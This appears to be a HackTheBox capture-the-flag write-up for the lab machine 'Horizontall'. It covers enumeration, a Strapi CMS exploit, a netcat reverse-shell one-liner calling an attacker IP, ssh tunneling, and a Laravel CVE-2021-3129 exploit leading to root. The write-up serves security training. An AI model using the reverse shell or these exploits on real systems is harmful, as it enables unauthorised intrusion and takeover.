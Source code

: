 ```yaml
---
title: "HackTheBox - Horizontall"
author: Nasrallah
description: ""
date: 2023-01-23 00:00:00 +0000
categories : [HackTheBox, Machines]
tags: [hackthebox, linux, easy, rce, tunneling, cve]
img_path: /assets/img/hackthebox/machines/horizontall
---
```


<div align="center"> <script src="https://www.hackthebox.eu/badge/565048"></script> </div>

---


# **Description**

Hello hackers, I hope you are doing well. We are doing **Horizontall** from [HackTheBox](https://www.hackthebox.com).

# **Enumeration**

## nmap

We start a nmap scan using the following command: `sudo nmap -sC -sV -T4 {target_IP}`.

- -sC: run all the default scripts.

- -sV: Find the version of services running on the target.

- -T4: Aggressive scan to provide faster results.

```terminal
Nmap scan report for 10.10.11.105
Host is up (0.66s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 ee:77:41:43:d4:82:bd:3e:6e:6e:50:cd:ff:6b:0d:d5 (RSA)
|   256 3a:d5:89:d5:da:95:59:d9:df:01:68:37:ca:d5:10:b0 (ECDSA)
|_  256 4a:00:04:b4:9d:29:e7:af:37:16:1b:4f:80:2d:98:94 (ED25519)
80/tcp open  http    nginx 1.14.0 (Ubuntu)
|_http-title: Did not follow redirect to http://horizontall.htb
|_http-server-header: nginx/1.14.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

```

We found two open ports, 22 running ssh and 80 running nginx web server

## Web
 
From the nmap scan we see that the web server redirects to `horizontall.htb`, so let's add that to /etc/hosts and then navigate to the web page.

![](1.png)

Noting really useful in this page.

### Sub-domain

Let's enumerate for subdomains using `ffuf`.

```terminal
└──╼ $ ffuf -c -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-110000.txt -u http://horizontall.htb/ -H "Host: FUZZ.horizontall.htb" -fw 7 

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v1.4.1-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://horizontall.htb/
 :: Wordlist         : FUZZ: /usr/share/seclists/Discovery/DNS/subdomains-top1million-110000.txt
 :: Header           : Host: FUZZ.horizontall.htb
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403,405,500
 :: Filter           : Response words: 7
________________________________________________

www                     [Status: 200, Size: 901, Words: 43, Lines: 2, Duration: 199ms]
api-prod                [Status: 200, Size: 413, Words: 76, Lines: 20, Duration: 162ms]

```

We found `api-prod` subdomain, let's add it to /etc/hosts.

![](2.png)

Also nothing in this page.

Let's check the headers and see if it reveals anything.

![](4.png)

We see the website is powered by `Strapi CMS`.

A quick search on exploit-db we see that it has some serious vulnerability.

![](3.png)

# **Foothold**

Let's download this [exploit](https://www.exploit-db.com/exploits/50239) and run it.

![](5.png)

Great! We got a new password for admin, let's login.

![](6.png)

Besides the new password, we also got a prompt for executing command on the target, unfortunately this is a blid RCE and we won't a get an output.

We can setup a listener on our machine and run the following command to get a reverse shell.

```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.10.17.90 1234 >/tmp/f
```

![](7.png)

![](8.png)

# **Privilege Escalation**

By checking the /etc/passwd file, we see that user strapi which is the current user we have has a shell, so i copied my ssh public key to a newly created .ssh directory and ssh'ed to the machine.

Now we check the application's files.

![](9.png)

We managed to find a password for mysql but that leads to nothing.

Now let's list listening ports with `netstat -tulpn`

![](13.png)

port 80 and 22 we found earlier with nmap, 3306 is the mysql server, port 1337 is used by strapi, so we're left with port 8000.

Assuming it's running a web server, i used `curl` to send a get request and it was a web page.

## Tunneling

Using ssh tunneling, let's make a local port forward so that we can access the webpage from our local machine.

```bash
ssh -L 8000:localhost:8000 strapi@10.10.11.105 -i ~/CTF/www/id_rsa
```

Now let's navigate to the web page at localhost:8000

![](10.png)

The website is using Laravel version 8 which after some research we find it is vulnerable to command execution.

I found this [exploit](https://github.com/nth347/CVE-2021-3129_exploit) that worked well for me. Let's download it and use it.

![](11.png)

We got code execution as root.

The next command we're gonna use will give bash suid bit which allows us to easily get a root shell.

![](12.png)

---

Thank you for taking the time to read my write-up, I hope you have learned something from this. If you have any questions or comments, please feel free to reach out to me. See you in the next hack :).